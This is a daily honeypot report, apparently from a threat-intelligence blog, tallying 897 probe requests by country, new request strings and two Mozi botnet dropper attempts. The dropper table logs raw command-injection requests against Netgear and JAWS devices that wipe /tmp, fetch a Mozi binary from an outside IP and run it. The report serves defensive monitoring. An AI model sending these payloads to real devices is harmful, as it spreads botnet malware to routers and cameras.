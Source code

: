 ```yaml
---
title: "Report: 2025-06-27 "
date: 2025-06-27
desciption: "Report: 2025-06-27" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-27 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 2 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 11 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 897 requests were recorded during the day, originating from 2 different countries, with a peak of 354 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                      |
|:--------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 45.230.66.107 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://45.230.66.107:10786/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 219.68.210.56 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://219.68.210.56:39295/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                |
|----:|----------------------:|:---------------------------------------|
|   7 |                    12 | GET /xyzz.xyzz HTTP/1.1                |
|   8 |                    11 | SSH-2.0-libssh_0.11.1                  |
| 123 |                     1 | POST /getpage.gch?pid=101 HTTP/1.1     |
| 201 |                     1 | \x04\x01\x00P\xC4\xFBF\xEA\x00         |
| 202 |                     1 | CONNECT 196.251.70.234:80 HTTP/1.0     |
| 231 |                     1 | GET /odinhttpcall1750985145 HTTP/1.1   |
| 232 |                     1 | GET /OdinHttpCall1750985145 HTTP/1.1   |
| 233 |                     1 | GET /Odin/http/call1750985145 HTTP/1.1 |
| 249 |                     1 | GET /odinhttpcall1750993162 HTTP/1.1   |
| 250 |                     1 | GET /OdinHttpCall1750993162 HTTP/1.1   |
| 251 |                     1 | GET /Odin/http/call1750993162 HTTP/1.1 |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   354 | US                 |
|  1 |                    62 | DE                 |
|  2 |                    57 | GB                 |
|  3 |                    50 | HK                 |
|  4 |                    49 | BG                 |
|  5 |                    48 | TW                 |
|  6 |                    40 | NL                 |
|  7 |                    35 | JP                 |
|  8 |                    28 | CA                 |
|  9 |                    27 | SG                 |
| 10 |                    16 | FR                 |
| 11 |                    16 | GH                 |
| 12 |                    13 | ZA                 |
| 13 |                    12 | PL                 |
| 14 |                    10 | DO                 |
| 15 |                    10 | CN                 |
| 16 |                     9 | TR                 |
| 17 |                     6 | CH                 |
| 18 |                     6 | IL                 |
| 19 |                     5 | BR                 |
| 20 |                     4 | SC                 |
| 21 |                     4 | IN                 |
| 22 |                     4 | UA                 |
| 23 |                     3 | MC                 |
| 24 |                     3 | AR                 |
| 25 |                     3 | KZ                 |
| 26 |                     3 | BE                 |
| 27 |                     3 | VN                 |
| 28 |                     2 | PT                 |
| 29 |                     2 | RU                 |
| 30 |                     2 | IE                 |
| 31 |                     2 | RO                 |
| 32 |                     1 | ES                 |
| 33 |                     1 | BD                 |
| 34 |                     1 | KR                 |
| 35 |                     1 | ID                 |
| 36 |                     1 | SE                 |
| 37 |                     1 | MD                 |
| 38 |                     1 | TH                 |
| 39 |                     1 | IT                 |
| 40 |                     1 | AO                 |
